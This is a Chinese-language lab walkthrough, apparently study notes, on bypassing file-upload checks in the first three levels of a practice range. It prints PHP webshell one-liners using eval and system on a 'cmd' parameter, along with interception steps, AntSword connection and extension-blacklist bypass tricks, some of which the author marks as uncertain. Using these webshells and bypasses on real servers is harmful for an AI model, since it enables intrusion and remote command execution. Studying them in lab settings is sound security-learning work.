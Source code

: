 ### Pass-01  JavaScript前端检查

通过 JS 限制上传的文件类型

##### 绕过方式

- 修改JS文件

- 上传png后缀的webshell，代理抓包，修改上传的文件后缀 （推荐）

- 禁用js

  (如何禁用JavaScript
  1.打开您的Google Chrome浏览器。
  2.点击屏幕右上角的菜单图标 (三个点)
  3.点击“设置
  4.现在点击左侧边栏菜单上的“隐私设置和安全性”

  5.在“隐私设置和安全性”下，选择“网站设置

  6.找到“JavaScript部分”并选择disable。

  7.单击“完成”并重新启动Chrome浏览器)

##### **靶场实战**

1. 上传eval.png文件内容为：`<?php @eval($_GET['cmd']); ?>`

2. burp 抓包 ，修改文件名为eval.php

3. 成功上传后，找到上传图片的位置，访问 GET /xxx/eval.php?cmd=phpinfo();

4. 然后尝试用蚁剑连接：先修改上传的php文件内容GET为POST,再复制图片地址到蚁剑,密码为cmd，编码器解码器为base64，连接成功。

   注：【`<?php @eval($_GET['cmd']); ?>`中的GET:用于在url中直接访问；POST：用于蚁剑连接，间接访问】

### **Pass-2 content-type（服务器端检测–MIME 类型）**

Content-Type 实体头部用于指示资源的MIME类型

media type ,在响应中，Content-Type标头告诉客户端实际返回的内容的内容类型。

对文件类型检查有缺陷-检查Content-Type标头是否与MIME 类型匹配。

##### **绕过方式：**

1. 上传 system.php 内容为：`<?php @system($_GET['cmd']); ?>`
2. 抓包 修改上传的Content-Type 类型为允许的类型 `image/jpeg`
3. 放包，收到成功上传
4. 复制文件上传的路径，请求 `GET /upload/upload/systemphpl.php?cmd=phpinfo();`

### Pass-3 黑名单限制不完全 - 后缀名限制不完全

黑名单限制上传文件后缀

##### 绕过方式

1. 使用可被执行但不常见的后缀名，比如 php5，phtml，php3等
2. 上传恶意的配置文件（Apache .htaccess） 欺骗服务器将任意自定义文件扩展名映射到可执行的MIME类型
3. 利用后端解析差异绕过限制？？？？？？？？？？？？？
4. 添加尾随字符，一些组件会去除或忽略尾随空格、点等：exploit.php. /exploit.php+空格？？？？？？
5. 对点 ( . )使用URL 编码， 如果验证文件扩展名时没有解码，在服务端被解码，绕过黑名单限制， `system%2Ephp`？？？？？
6. 在文件扩展名前添加分号或 URL 编码的空字节字符。如果验证是用 PHP 或 Java 等高级语言编写的，但服务器使用 C/C++ 中的低级函数处理文件，例如，这可能会导致文件名结尾出现差异：exploit.asp;.jpg或exploit.asp%00.jpg？？？？？？？
